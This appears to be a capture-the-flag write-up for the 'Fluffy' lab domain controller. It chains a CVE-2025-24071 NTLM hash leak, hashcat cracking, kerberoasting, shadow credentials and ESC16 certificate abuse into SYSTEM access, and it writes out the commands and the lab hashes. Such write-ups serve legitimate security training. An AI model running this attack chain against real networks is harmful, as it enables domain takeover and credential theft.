

Introduction
Difficulty: Easy
Machine: Fluffy
Credentials: j.fleischman / J0elTHEM4n1990!
IP Address: 10.10.11.69
First, we run a network scan

We see interesting information and realize this is a Domain Controller, so we start by configuring our DNS.
Domain: fluffy.htb
DC: DC01.fluffy.htb
Now we begin enumerating the network. First we list the SMB:

After analyzing the SMB, we find a PDF that contains interesting information about some recent possible vulnerabilities that may still affect the machine.

We perform some research, and the CVE we will use is CVE-2025-24071, it's a flaw in Windows File Explorer that allows an attacker to induce a user's system to perform an "action" over the network, which can chain into an NTLM hash leak via a relay attack.

The vulnerability lies in handling files with the .library-ms extension, especially when packaged in zip/rar and extracted. Explorer tries to access SMB network paths contained within the file. So, to build the payload, just create an exploit.library-ms XML file with the url tag pointing to our machine.

We set responder to listen

We upload the zipped file to the SMB and wait with our responder listening

Thus, when the user unpacks the file, their authentication hash will be sent to our responder.

Now we just crack the hash using hashcat
hashcat -m 5600 -a 0 -O --force hash.txt rockyou.txt

P.agila:prometheusx-303
We obtained another valid user, now we enumerate where we can access with our current users.
nxc ldap 10.10.11.69 -u users.txt -p passwords.txt --continue-on-success

We perform a kerberoast attack to obtain the hash of a service account.
nxc ldap 10.10.11.69 -u p.agila -p prometheusx-303 --kerberoasting outputk.txt

But we failed to crack it. We then use blood-python to enumerate the AD, load it into BloodHound to get a better view and, analyzing it, we manage to find a list of users.
j.fleischman
j.coffey
krbtgt
p.agila
winrm_svc
administrator
ca_svc
ldap_svcIn BloodHound, we notice that our user p.agila has "GenericAll" on the Service Accounts group

We can then use this permission to add ourselves to that group and, from there, perform a shadow credentials attack, thereby obtaining the NTLM hashes of the service accounts

NT hash for ca_svc :ca0f4f9e9eb8a092addf53bb03fc98c8
NT hash for ldap_svc :22151d74ba3de931a352cba1f9393a37
NT hash for winrm_svc :33bd09dcd697600edf6b3a7af4875767Now, by "guessing", we see that "ca_svc" may be related to ADCS, so we enumerate ADCS using its hash as authentication
certipy-ad find -u 'ca_svc' -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -vulnerable -enable -text
The enumeration showed us that we can perform a potential ESC16 attack.

We found an ESC16 vulnerability. It occurs when the CA (Certification Authority) is configured to disable the inclusion of OID 1.3.6.1.4.1.311.25.2 which corresponds to the security extension in all issued certificates.
Now, to perform the attack, first we need to modify the UPN (UserPrincipalName) of the ca_svc account (for which we have GenericWrite). The target is administrator, so we will use this modified account (ca_svc) to request a certificate on behalf of another account (administrator), thus allowing us to authenticate as it.
certipy-ad account update -username p.agila@fluffy.htb -p prometheusx-303 -upn 'administrator@fluffy.htb' -user 'ca_svc' -dc-ip 10.10.11.69
Now we request the certificate with the command:
certipy req -username ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -ca fluffy-DC01-CA -templates User -dc-ip 10.10.11.69
We revert the UPN of ca_svc back to its original with the command
certipy-ad account update -username p.agila@fluffy.htb -p prometheusx-303 -upn 'ca_svc@fluffy.htb' -user 'ca_svc' -dc-ip 10.10.11.69And now we authenticate as administrator:
certipy-ad auth -pfx administrator.pfx -username administrator -domain fluffy.htb -dc-ip 10.10.11.69Thus we obtain the administrator's NTLM hash
Now we can run psexec passing the hash as authentication and that's it, we acquire NT AUTHORITY\SYSTEM on the machine.